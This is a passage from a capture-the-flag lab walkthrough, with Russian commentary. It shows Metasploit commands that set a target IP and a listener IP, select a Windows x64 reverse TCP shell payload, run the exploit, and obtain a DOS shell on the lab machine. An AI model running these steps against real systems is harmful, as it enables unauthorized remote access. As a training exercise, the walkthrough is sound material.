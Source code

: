 ### Question 6: Show options and set the one required value. What is the name of this value? (All caps for submission)
Теперь необходимо настроить IP-адрес цели (**RHOSTS**), а также установить наш IP в качестве получателя (**LHOST**) и произвести запуск
```sh
set RHOSTS 10.10.10.88
```
```sh
set LHOST <Your tunnel IP>
```
```sh
run (or exploit)
```
![ScreenShot](screenshots/6.png)

### Question 7: Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```sh
set payload windows/x64/shell/reverse_tcp
```

### Question 8: Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
На данный момент мы видим, что получили DOS shell (если при подключение появился баннер с FAIL, попробуйте повторить запуск заново)
![ScreenShot](screenshots/7.png)
